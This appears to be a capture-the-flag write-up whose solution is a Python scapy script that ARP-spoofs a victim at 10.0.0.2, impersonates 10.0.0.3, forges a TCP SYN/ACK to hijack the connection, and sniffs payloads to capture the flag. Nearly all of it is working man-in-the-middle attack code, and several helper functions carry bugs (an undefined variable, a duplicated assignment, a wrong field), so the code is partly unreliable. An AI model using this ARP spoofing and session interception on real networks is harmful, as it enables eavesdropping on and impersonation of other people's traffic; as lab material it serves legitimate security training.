 # Problem Statement
Intercept traffic from a remote host. The remote host at 10.0.0.2 is communicating with the remote host at 10.0.0.3 on port 31337.

## Observations
- This is trivial using python's socket module (we would need to add PREROUTING rules to the DNAT table if we don't use raw sockets), but pretty interesting if we use scapy to craft our own packet.

## Solution
```
from scapy.all import *

def arp_spoof(victim_ip, impersonated_ip):
    hwsrc = get_if_hwaddr("eth0")
    hwdst = getmacbyip(victim_ip)
    send(ARP(op=2, hwsrc=hwsrc, hwdst=hwdst, psrc=impersonated_ip, pdst=victim_ip))

def send_ack(pkt):
    seq = pkt[TCP].ack
    ack = pkt[TCP].seq + 1 # ACK the other end's SYN
    flags = "A" # ACK
    src = pkt[IP].dst
    dst = pkt[IP].src
    sport = pkt[TCP].dport
    sport = pkt[TCP].dport
    send(IP(src=src, dst=dst) / TCP(sport=sport, dport=dport, seq=seq, ack=ack, flags=flags))

def send_syn(pkt):
    seq = 12345 # whatever
    ack = 0
    flags = "S" # SYN
    src = pkt[IP].dst
    dst = pkt[IP].src
    sport = pkt[TCP].dport
    dport = pkt[TCP].sport
    send(IP(src=src, dst=dst) / TCP(sport=sport, dport=dport, seq=seq, ack=ack, flags=flag))


def send_syn_ack(pkt):
    seq = 12345 # whatever
    ack = pkt[IP].seq + 1 # ACK other end's SYN
    flags = "SA" # SYN/ACK
    src = pkt[IP].dst
    dst = pkt[IP].src
    sport = pkt[TCP].dport
    dport = pkt[TCP].sport
    send(IP(src=src, dst=dst) / TCP(sport=sport, dport=dport, seq=seq, ack=ack, flags=flags))




# Client connects to 10.0.0.3:31337, sends flag
# We want to impersonate 10.0.0.3 and accept 10.0.0.2's connection

arp_spoof("10.0.0.2", "10.0.0.3")

pkt = sniff(iface="eth0", prn=lambda x: x.show(), filter="tcp[13] & 0x12 = 0x02", count=1)[0] # Flags are set on the 14th byte of TCP packets. 0x10 is ACK, 0x02 is SYN
send_syn_ack(pkt)
sniff(iface="eth0", filter="tcp", prn=lambda pkt: print(pkt[Raw].load) if Raw in pkt else None) # Sniff once th econnection has been established and print payloads if any (flag will be there)
```
